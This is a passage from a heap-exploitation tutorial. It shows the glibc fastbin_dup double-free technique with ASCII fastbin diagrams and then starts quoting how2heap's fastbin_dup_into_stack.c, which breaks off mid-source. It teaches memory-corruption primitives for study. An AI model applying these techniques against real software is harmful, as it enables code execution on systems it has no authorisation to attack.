 ```text
|      ||      ||      ||      ||      ||      ||      ||      ||      ||      |
+------++------++------++------++------++------++------++------++------++------+
```

now lets perform our fastbin dup, and see what happens to the fastbin:

```c
free(a);
free(b);
free(a);
```

```text
fastbin:

   0       1       2       3       4       5       6       7       8       9
  0x20    0x30    0x40    0x50    0x60    0x70    0x80    0x90   0x100   0x110
+------++------++------++------++------++------++------++------++------++------+
|  a   ||  b   ||  a   ||      ||      ||      ||      ||      ||      ||      |
+------++------++------++------++------++------++------++------++------++------+
```

lets malloc, and see what pointers we get returned

```text
fastbin:

   0       1       2       3       4       5       6       7       8       9
  0x20    0x30    0x40    0x50    0x60    0x70    0x80    0x90   0x100   0x110
+------++------++------++------++------++------++------++------++------++------+
|      ||      ||      ||      ||      ||      ||      ||      ||      ||      |
+------++------++------++------++------++------++------++------++------++------+
```

```c
malloc(24); // a
malloc(24); // b
malloc(24); // a
```

malloc will return a pointer to the "a" chunk
the second will return a pointer to the "b" chunk
this will return a duplicated pointer to the "a" chunk

tl;dr, tcache has a protection against double frees, whilst the fastbin does not. We can leverage
this to successfully exploit a double free, and in this case, duplicate a pointer to a chunk in memory.

Okay, lets get onto the next demonstration, which is fastbin_dup_into_stack

### fastbin_dup_into_stack.c

Here is the source to the script, in which you can find on how2heaps repository:

```c
#include <stdio.h>
#include <stdlib.h>
int main() {
    fprintf(stderr, "This file extends on fastbin_dup.c by tricking malloc into\n"
           "returning a pointer to a controlled location (in this case, the stack).\n");

    unsigned long long stack_var;

    fprintf(stderr, "The address we want malloc() to return is %p.\n", 8+(char *)&stack_var);

    fprintf(stderr, "Allocating 3 buffers.\n");
    int *a = malloc(8);
    int *b = malloc(8);
    int *c = malloc(8);
```
